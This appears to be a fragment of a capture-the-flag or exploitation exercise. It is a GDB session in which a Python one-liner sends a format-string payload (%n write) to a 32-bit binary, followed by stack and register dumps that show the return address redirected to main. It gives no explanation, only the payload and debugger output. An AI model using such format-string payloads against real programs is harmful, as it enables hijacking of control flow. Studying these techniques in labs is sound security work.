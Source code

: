 ```bash

gef➤  r $(python -c 'print "\xdc\xcf\xff\xff" + "%134517170u" + "%6$n"')

Breakpoint 1, 0x0804921c in main ()
gef➤  x/50wx $esp
0xffffcfdc:	0x080491b6	0x00000002	0xffffd074	0xffffd080
0xffffcfec:	0xffffd004	0xf7fa8000	0x00000000	0xffffd058
0xffffcffc:	0x00000000	0xf7ffd000	0x00000000	0xf7fa8000
0xffffd00c:	0xf7fa8000	0x00000000	0xd207188e	0x96e59e9e
0xffffd01c:	0x00000000	0x00000000	0x00000000	0x00000002
0xffffd02c:	0x080490a0	0x00000000	0xf7fe7b24	0xf7fe22f0
0xffffd03c:	0x0804c000	0x00000002	0x080490a0	0x00000000
0xffffd04c:	0x080490d6	0x080491b6	0x00000002	0xffffd074
0xffffd05c:	0x08049220	0x08049290	0xf7fe22f0	0xffffd06c
0xffffd06c:	0x0000001c	0x00000002	0xffffd242	0xffffd287
0xffffd07c:	0x00000000	0xffffd29b	0xffffd2ab	0xffffd2fb
0xffffd08c:	0xffffd30d	0xffffd320	0xffffd334	0xffffd368
0xffffd09c:	0xffffd3a2	0xffffd3b8
gef➤  i r
eax            0x0                 0x0
ecx            0xffffcfe0          0xffffcfe0
edx            0x77fb6e49          0x77fb6e49
ebx            0x0                 0x0
esp            0xffffcfdc          0xffffcfdc
ebp            0x0                 0x0
esi            0xf7fa8000          0xf7fa8000
edi            0xf7fa8000          0xf7fa8000
eip            0x804921c           0x804921c <main+102>
eflags         0x286               [ PF SF IF ]
cs             0x23                0x23
ss             0x2b                0x2b
ds             0x2b                0x2b
es             0x2b                0x2b
fs             0x0                 0x0
gs             0x63                0x63
gef➤  ni
0x080491b6 in main ()
gef➤  i r
eax            0x0                 0x0
ecx            0xffffcfe0          0xffffcfe0
edx            0x77fb6e49          0x77fb6e49
ebx            0x0                 0x0
esp            0xffffcfe0          0xffffcfe0
ebp            0x0                 0x0
esi            0xf7fa8000          0xf7fa8000
edi            0xf7fa8000          0xf7fa8000
eip            0x80491b6           0x80491b6 <main>
eflags         0x286               [ PF SF IF ]
cs             0x23                0x23
ss             0x2b                0x2b
ds             0x2b                0x2b
es             0x2b                0x2b
fs             0x0                 0x0
gs             0x63                0x63
```
